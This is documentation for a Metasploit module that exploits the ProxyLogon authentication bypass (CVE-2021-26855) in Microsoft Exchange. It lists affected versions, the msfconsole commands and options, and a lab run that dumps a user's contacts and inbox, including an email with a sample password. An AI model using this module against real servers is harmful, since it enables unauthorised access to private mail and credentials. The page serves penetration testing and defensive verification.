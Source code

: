 ## Introduction

  An issue was discovered in Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin (CVE-2021-26855). By chaining this bug with another
  post-auth arbitrary-file-write vulnerability to get code execution (CVE-2021-27065).

  As a result, an unauthenticated attacker can execute arbitrary commands on Microsoft Exchange Server.

  This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013, Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013,
  Exchange 2019 CU8 < 15.02.0792.010).

  All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `set SERVER_NAME [SERVER_NAME]`
6. Do: `run`

## Options
1. `EMAIL`. The email account what you want dump
2. `FOLDER`. The email folder what you want dump. Default: `inbox`
3. `Proxies`. This option is not set by default.
4. `RPORT`. The default setting is `443`. To use: `set RPORT [PORT]`
5. `SERVER_NAME`. The name of secondary internal Exchange server targeted.
6. `SSL`. The default setting is `true`.
7. `VHOST`. This option is not set by default.

## Scenarios

```
msf6 auxiliary(gather/exchange_proxylogon) > options 

Module options (auxiliary/gather/exchange_proxylogon):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SERVER_NAME  SERVER2                   yes       The name of the Exchange server targeted
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   VHOST                                  no        HTTP server virtual host

msf6 auxiliary(gather/exchange_proxylogon) > run
[*] Running module against 172.20.2.110

[*] Connection to the server is successful
[*]  - selected account: gaston.lagaffe@pwned.lab

[*] Attempt to dump contacts list for this user
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__852485.txt

[*] Attempt to dump emails for this user
[*]  - selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  - number of email found: 2
[*]  - download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__150371.txt
[*]  - download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon) > cat /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt
[*] exec: cat /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt

Received: from exch2k16.pwned.lab (172.20.2.110) by exch2k16.pwned.lab
 (172.20.2.110) with Microsoft SMTP Server (TLS) id 15.1.225.42 via Mailbox
 Transport; Tue, 9 Mar 2021 00:45:07 +0400
Received: from exch2k16.pwned.lab (172.20.2.110) by exch2k16.pwned.lab
 (172.20.2.110) with Microsoft SMTP Server (TLS) id 15.1.225.42; Tue, 9 Mar
 2021 00:45:07 +0400
Received: from exch2k16.pwned.lab ([fe80::149f:ecd5:e73f:a1da]) by
 exch2k16.pwned.lab ([fe80::149f:ecd5:e73f:a1da%12]) with mapi id
 15.01.0225.041; Tue, 9 Mar 2021 00:45:07 +0400
From: Gaston LAGAFFE <gaston.lagaffe@pwned.lab>
To: Gaston LAGAFFE <gaston.lagaffe@pwned.lab>
Subject: You strong password
Thread-Topic: You strong password
Thread-Index: AQHXFFvsra30q8OYg0uREmmfQA0DOg==
Date: Mon, 8 Mar 2021 20:45:07 +0000
Message-ID: <a866c18d2f5845ceb96574e7a33553b8@pwned.lab>
Accept-Language: fr-FR, en-US
Content-Language: fr-FR
X-MS-Exchange-Organization-AuthAs: Internal
X-MS-Exchange-Organization-AuthMechanism: 04
X-MS-Exchange-Organization-AuthSource: exch2k16.pwned.lab
X-MS-Has-Attach:
X-MS-Exchange-Organization-Network-Message-Id:
	b6335683-ea6f-4115-edb7-08d8e2730ef3
X-MS-Exchange-Organization-SCL: -1
X-MS-TNEF-Correlator:
Content-Type: multipart/alternative;
	boundary="_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_"
MIME-Version: 1.0

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_
Content-Type: text/plain; charset="iso-8859-1"
Content-Transfer-Encoding: quoted-printable

Hello Gaston,


Your password is: P@ssw0rd123


Kind Regards.

Admin.

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_
Content-Type: text/html; charset="iso-8859-1"
Content-Transfer-Encoding: quoted-printable

<html>
<head>
<meta http-equiv=3D"Content-Type" content=3D"text/html; charset=3Diso-8859-=
1">
<style type=3D"text/css" style=3D"display:none;"><!-- P {margin-top:0;margi=
n-bottom:0;} --></style>
</head>
<body dir=3D"ltr">
<div id=3D"divtagdefaultwrapper" style=3D"font-size:12pt;color:#000000;back=
ground-color:#FFFFFF;font-family:Calibri,Arial,Helvetica,sans-serif;">
<p>Hello Gaston,</p>
<p><br>
</p>
<p>Your password is: P@ssw0rd123</p>
<p><br>
</p>
<p>Kind Regards.</p>
<p>Admin.</p>
</div>
</body>
</html>

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_--
msf6 auxiliary(gather/exchange_proxylogon) > 
```

## References

1. <https://proxylogon.com/>
2. <https://raw.githubusercontent.com/microsoft/CSS-Exchange/main/Security/http-vuln-cve2021-26855.nse>
